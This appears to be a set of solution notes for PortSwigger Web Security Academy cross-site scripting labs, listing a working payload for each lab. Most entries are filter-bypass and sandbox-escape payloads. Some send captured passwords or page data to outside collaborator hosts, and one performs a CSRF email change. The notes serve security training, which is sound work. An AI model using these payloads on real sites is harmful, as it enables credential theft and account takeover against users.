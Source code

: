 Lab: [Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

Brute force for allowed tags: `<body>`, custom tags

https://0ada00ee03da84e1802b5361005e0033.web-security-academy.net/?search=<FUZZ

Brute force for allowed attributes:

https://0ada00ee03da84e1802b5361005e0033.web-security-academy.net/?search=<body+FUZZ=1>

![](./img/7.png)

Final payload: <iframe src='https://0ada00ee03da84e1802b5361005e0033.web-security-academy.net/?search=%3Cbody+onresize%3D%22print%28%29%22%3E' onload=this.style.width='100px'>

Lab: [Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

Payload: `<script>
window.location = "https://0af2003c03dc7802917267e900910024.web-security-academy.net/?search=%3Cxss+autofocus+tabindex%3D1+onfocus%3Dalert%28document.cookie%29%3E%3C%2Fxss%3E#a";
</script>`

Lab: [Reflected XSS with event handlers and href attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)

```html
<svg>
    <a>
        <animate attributeName=href values=javascript:alert(1) />
        <text x='20' y='20'>Click</text>
    </a>
</svg>
```

Lab: [Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

Payload:

```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

Lab: [Reflected XSS into attribute with angle brackets HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)

Utilize attribute instead of tag.

Payload:

```html
" autofocus onfocus=alert(1) x="
```

Lab: [Stored XSS into anchor href attribute with double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)

Payload:

```html
<a id="author" href="javascript:alert(1)">a</a>
```

Lab: [Reflected XSS in canonical link tag](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag)

Payload:

```html
https://0aef007a030430af804a0de100830086.web-security-academy.net/?a=a%27accesskey=%27X%27%09onclick=%27alert(1)%27

--->
'accesskey='X'%09onclick='alert(1)'
```

Lab [Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)

Payload: Use `</script>` to close the script tag then inject the payload.

Lab: [Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)

payload

```javascript
x=x=>{throw/**/onerror=alert,1337},toString=x,window+''
```

Lab: [Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped)

Bypass the ' filter using html encoded single quote: `&apos;`

```html
&apos);alert(1);//
```

Lab: [Reflected XSS with AngularJS sandbox escape without strings](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings)

payload

```javascript
toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)

---> x=alert(1)
```

Lab: [Reflected XSS with AngularJS sandbox escape and CSP](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp)


payload

```javascript

```html
<input id=x ng-focus=$event.composedPath()|orderBy:'(y=alert)(1)'>
```

Lab: [Exploiting cross-site scripting to capture passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://ceufwx619vo5bqqjg1yrnekbx23trjf8.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Lab: [Exploiting XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

```html
<script>
var token = fetch('/my-account', {
    method: 'GET'
    }).then(function(response) {
        return response.text();
    }).then(function(text) {
        return text.match(/csrf" value="([^"]+)"/)[1];
    }).then(function(token) {
        var email = 'tesst@gmail.com';

        fetch('/my-account/change-email', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: 'csrf=' + token + '&email=' + email
            });
    });

</script>
```

Lab: [Reflected XSS protected by very strict CSP, with dangling markup attack](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)

```html
<script>
if (window.name) {
    new Image().src = 'https://1ik40maqdksuffu8kq2gr3o01r7ivdj2.oastify.com/?'  + encodeURIComponent(window.name);
} else {
location = `https://0a3900410391fab1817d48820079000c.web-security-academy.net/my-account?email="><a href= 'https://exploit-0ad2009c0382fa5881da470b01f4003d.exploit-server.net/exploit'>Click me<a><base target='`
}

</script>
```